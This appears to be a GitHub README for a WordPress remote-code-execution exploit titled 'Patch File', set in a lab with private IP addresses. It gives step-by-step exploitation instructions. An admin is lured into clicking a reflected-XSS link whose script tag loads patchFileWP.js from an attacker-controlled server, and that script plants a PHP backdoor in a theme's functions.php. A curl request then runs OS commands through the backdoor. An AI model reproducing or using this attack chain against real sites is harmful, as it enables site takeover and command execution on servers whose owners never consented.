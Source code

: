 # [RCE] Patch File

## Test Environment

### Web Browsers (20240224)

* [x] Mozilla Firefox Version 123.0 (64-bit)
* [x] Google Chrome Version 122.0.6261.70 (64-bit)
* [x] Microsoft Edge Version 122.0.2365.52 (64-bit)

## Exploitation Steps

1. [setup exploit] identify target WordPress theme

    *(enumerate installed WordPress themes installed on target site)*

2. [setup exploit] change payload variable values (`patchFileWP.js`)

    `phpBdURL` - URL of PHP backdoor to be installed on target site

    `themeName` - WordPress theme name to be patched

    `wpRoot` - path to WordPress installation on the target system (e.g. `"/path"`)

3. [setup exploit] setup web server (to serve the payload/backdoor)

    * **NOTE**: update/customize PHP backdoor in `bd.txt`

4. [social engineering attack] victim user (with administrative privileges) logs in

    http://192.168.5.10/wp-login.php

5. [social engineering attack] victim user clicks link

    ```
    http://192.168.5.10/test/rxss.php?q=<script src=http://192.168.5.15/patchFileWP.js></script>
    ```

    * **NOTES**:
      * `192.168.5.10` - target WordPress site
      * `192.168.5.15` - web server hosting payload

6. [post exploit] execute OS command

    ```
    curl "http://192.168.5.10/wp-content/themes/twentytwentyfour/functions.php?pass=test&cmd=id"
    ```

    * **NOTE**: endpoint URL constructed based on specified WordPress theme name + `functions.php`

7. [restore file] restore file via GUI

    *WordPress -> Tools -> Theme File Editor -> Select theme to edit - (select target theme from droplist) -> Select -> Theme Functions (functions.php) -> (remove backdoor) -> Update File*

## Screenshots

* **NOTE**: the screenshot covers steps 2 to 6 from the "Exploitation Steps" chapter

![Image](screenshots/WordPress_-_patch_file_-_1-1.png)
